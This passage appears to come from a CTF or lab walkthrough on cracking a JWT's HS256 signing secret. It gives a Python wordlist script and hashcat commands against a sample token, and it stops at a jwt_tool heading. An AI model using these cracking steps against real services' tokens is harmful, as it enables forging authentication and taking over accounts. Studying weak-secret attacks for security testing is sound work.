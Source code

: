 ### Step 3: Secret Key Cracking

Since this is a development environment, we attempt to crack the secret using common weak passwords.

**Method 1: Manual Testing with Common Secrets**

```python
#!/usr/bin/env python3
import jwt

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoidXNlciJ9.KhQLuSH2So2LC8BZYMSYq2Mq6s5vusco-EY_zvfOq-I"

# Common weak secrets for CTF/development environments
wordlist = [
    '', 'secret', 'password', 'admin', 'key', 'jwt', 
    'flask', 'dev', 'development', 'test', 'exploit3rs',
    '123456', 'qwerty', 'abc123', 'letmein', 'token',
    'jwtkey', 'secret_key', 'supersecret', 'flask_secret'
]

print("🔍 Attempting to crack JWT secret...\n")

for secret in wordlist:
    try:
        # Try to verify signature with this secret
        decoded = jwt.decode(token, secret, algorithms=["HS256"])
        print(f"✅ SECRET FOUND: '{secret}'")
        print(f"Decoded payload: {decoded}")
        break
    except jwt.InvalidSignatureError:
        continue
    except Exception as e:
        continue
else:
    print("❌ Secret not found in wordlist")
```

**Method 2: Using Hashcat (Brute Force)**

```bash
# Save token to file
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoidXNlciJ9.KhQLuSH2So2LC8BZYMSYq2Mq6s5vusco-EY_zvfOq-I" > jwt.txt

# Crack with hashcat
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt

# Display cracked secret
hashcat -m 16500 jwt.txt --show
```

**Method 3: Using jwt_tool**

